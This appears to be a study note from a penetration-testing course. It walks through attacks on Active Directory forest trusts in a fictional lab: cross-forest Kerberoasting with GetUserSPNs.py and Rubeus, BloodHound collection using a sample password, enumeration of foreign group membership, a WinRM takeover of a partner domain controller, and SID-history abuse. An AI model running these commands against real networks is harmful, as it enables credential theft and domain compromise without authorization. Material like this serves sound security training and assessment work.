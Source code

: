 ## Linux
##### Cross-Forest Kerberoast
Enumerating Accounts for Associated SPNs
```shell
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
Cross Forest Kerberoast
```shell
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

#### Hunting Foreign Group Membership with Bloodhound-python
As noted in the last section, we may, from time to time, see users or admins from one domain as members of a group in another domain. Since only Domain Local Groups allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship

We would need to edit our `resolv.conf` file to run this tool since it requires a DNS hostname for the target Domain Controller instead of an IP address
```shell
~ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```
Running bloodhound-python against `INLANEFREIGHT.LOCAL`
```shell
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```
Compressing the File with zip -r
```shell
zip -r ilfreight_bh.zip *.json
```
Adding `FREIGHTLOGISTICS.LOCAL` (Trusted Forest) Information to `/etc/resolv.conf`
```shell
~ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```
Running bloodhound-python against `FREIGHTLOGISTICS.LOCAL`
```shell
bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

---
## Windows
##### Cross-Forest Kerberoast
Enumerating Accounts for Associated SPNs Using Get-DomainUser
```powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```
Check privileges of Kerberoastable account
```powershell
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```
Cross Forest Kerberoast with Rubeus
```powershell
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

---
## Cross-Forest Kerberoasting
Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

**If we are successful with this type of attack during a real-world assessment, it would also be worth checking to see if this account exists in our current domain and if it suffers from password re-use. This could be a quick win for us if we have not yet been able to escalate in our current domain. Even if we already have control over the current domain, it would be worth adding a finding to our report if we do find password re-use across similarly named accounts in different domains.**
## Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. If we can take over Domain A and obtain cleartext passwords or NT hashes for either the built-in Administrator account (or an account that is part of the Enterprise Admins or Domain Admins group in Domain A), and Domain B has a highly privileged account with the same name, then it is worth checking for password reuse across the two forests. I occasionally ran into issues where, for example, Domain A would have a user named `adm_bob.smith` in the Domain Admins group, and Domain B had a user named `bsmith_admin`. Sometimes, the user would be using the same password in the two domains, and owning Domain A instantly gave me full admin rights to Domain B.

We may also see users or admins from Domain A as members of a group in Domain B. Only `Domain Local Groups` allow security principals from outside its forest. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.

We can use the PowerView function [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) to enumerate groups with users that do not belong to the domain, also known as `foreign group membership`. Let's try this against the `FREIGHTLOGISTICS.LOCAL` domain with which we have an external bidirectional forest trust.

Using Get-DomainForeignGroupMember

```powershell
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. We can verify this access using the `Enter-PSSession` cmdlet to connect over WinRM.

```powershell
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator
```

## SID History Abuse - Cross Forest

SID History can also be abused across a forest trust. If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest. In the below diagram, we can see an example of the `jjones` user being migrated from the `INLANEFREIGHT.LOCAL` domain to the `CORP.LOCAL` domain in a different forest. If SID filtering is not enabled when this migration is made and the user has administrative privileges (or any type of interesting rights such as ACE entries, access to shares, etc.) in the `INLANEFREIGHT.LOCAL` domain, then they will retain their administrative rights/access in `INLANEFREIGHT.LOCAL` while being a member of the new domain, `CORP.LOCAL` in the second forest.

![image](https://academy.hackthebox.com/storage/modules/143/sid-history.png)

